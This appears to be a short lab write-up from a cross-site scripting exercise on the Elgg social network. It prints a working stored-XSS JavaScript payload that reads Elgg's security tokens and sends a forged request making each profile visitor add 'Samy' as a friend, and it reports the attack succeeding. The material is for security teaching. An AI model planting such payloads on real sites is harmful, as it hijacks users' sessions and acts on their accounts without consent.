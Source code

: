 
# Task 4: Becoming the Victim’s Friend

We will put the following code in samy's about me section as HTML
```javascript
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token; 
  //Construct the HTTP request to add Samy as a friend.
  var sendurl="/action/friends/add?friend=59"+ts+token;

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>

```

We will then see that the attack is successful on the profile page, a request is made to add samy as friend
![add-friend](./attachments/add-friend.png)
![samy-friend](./attachments/samy-friend.png)
